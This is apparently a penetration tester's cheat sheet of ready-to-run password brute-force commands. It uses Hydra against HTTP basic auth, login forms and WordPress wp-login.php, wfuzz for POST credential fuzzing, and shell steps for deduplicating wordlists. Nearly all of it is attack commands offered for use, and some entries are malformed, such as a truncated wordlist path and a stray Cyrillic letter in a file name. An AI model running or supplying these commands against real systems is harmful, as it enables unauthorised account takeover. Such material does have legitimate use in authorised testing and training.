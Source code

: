 BASIC AUTH BASICAUTH BASIC-AUTH with HYDRA
---
#bruteforce #basic-auth 

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f $TARGET_IP http-get
```

```shell
hydra -L users -P passwords -s 80 -f $TARGET_IP http-get
```

HTTP Post with HYDRA
---
```
hydra -l USERNAME -P /usr/share $TARGET_IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

WordPress HYDRA:
---
```shell
hydra -P fc.dic $TARGET_URL http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$TARGET_IP%2Fwp-admin%2F&testcookie=1:Invalid username" -V
```

WFUZZ Post request
---
```shell
wfuzz -c -z file,$USERNAMES -z file,$PASSWORDS -d 'user=FUZZ&pass=FUZ2Z' $TARGET_URL/$FILE
```

WORDPRESS:
---
Get only unique entries from a dictionary files:

```shell
wc -l $DICT_FILE
```

```shell
sort $DICT_FILE | uniq > $DICT_FILE-sort.dic
```
or

```shell
sort -u $DICT_FILE > $DICT_FILE-sort.dic
```

```shell
wc -l $DICT_FILE-sort.dic
```

WordPress default login url:
---
```shell
hydra -L users.file -P passwordс $TARGET_URL http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.11.10.239%2Fwp-admin%2F&testcookie=1:Invalid username" -V
```
